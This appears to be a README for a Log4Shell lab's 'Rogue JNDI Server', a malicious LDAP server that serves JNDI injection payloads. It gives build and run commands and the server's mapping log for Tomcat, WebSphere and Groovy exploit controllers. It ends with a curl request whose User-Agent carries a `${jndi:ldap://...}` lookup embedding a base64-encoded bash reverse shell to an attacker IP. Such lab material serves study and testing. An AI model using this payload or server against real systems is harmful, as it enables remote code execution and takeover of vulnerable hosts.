 # Rogue JNDI Server
A malicious LDAP server for JNDI injection attacks created by the [Veracode research team](https://github.com/veracode-research).

## Updates
* Extended Tomcat controller LDAP mapping URIs to cover direct b64 encoded strings requests for PowerShell and Bash.
    * `/o=tomcat`, `/o=tomcat,pwshb64cmd=*`, `/o=tomcat,bashb64cmd=*`
* Updated `artsploit` utilities:
    * Created a method to take PowerShell or Bash b64 encoded strings and pack it so that it can be executed as a `java.lang.Runtime.exec()` payload.
    * Integrated [JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit/blob/master/src/main/java/jndi/LDAPRefServer.java#L115) method to convert bytes to hex to show serialized data before it gets sent to the client.

## Deploy Rogue JNDI Server

clone GitHub project

```bash
sudo su

git clone https://github.com/Cyb3rWard0g/log4jshell-lab
```

We are going to build our rogue-jndi server to apply the recent modifications. You can use this script to install the latest Docker app in your Linux VM.

```bash
wget https://raw.githubusercontent.com/OTRF/Blacksmith/master/resources/scripts/bash/Install-Docker.sh
chmod +x Install-Docker.sh

./Install-Docker.sh
```

Build docker image

```bash
cd log4jshell-lab/attacker/rogue-jndi/

docker build . -t rogue-jndi
```

## Run Project

```bash
docker run --rm -ti -e PAYLOAD_IP=192.168.2.6 -p 1389:1389 -p 8888:8888 rogue-jndi
```

```
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8888
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://192.168.2.6:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://192.168.2.6:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
Mapping ldap://192.168.2.6:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://192.168.2.6:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
Mapping ldap://192.168.2.6:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://192.168.2.6:1389/o=tomcat,pwshb64cmd=* to artsploit.controllers.Tomcat
Mapping ldap://192.168.2.6:1389/o=tomcat,bashb64cmd=* to artsploit.controllers.Tomcat
Mapping ldap://192.168.2.6:1389/o=groovy to artsploit.controllers.Groovy
Mapping ldap://192.168.2.6:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://192.168.2.6:1389/o=reference to artsploit.controllers.RemoteReference
```

## Test JNDI Lookup - Bash B64 Encoded Command

```bash
curl -X GET -H 'user-agent: ${jndi:ldap://192.168.2.6:1389/o=tomcat,bashb64cmd=YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjIuNi80NDMgMD4mMQ%3D%3D}' 127.0.0.1:8080/Log4j-2.14.0-SNAPSHOT/api
```

![](../../resources/images/log4jshell-lab-rogue-jndi-test.png)

# References
* https://github.com/veracode-research/rogue-jndi
* https://www.jackson-t.ca/runtime-exec-payloads.html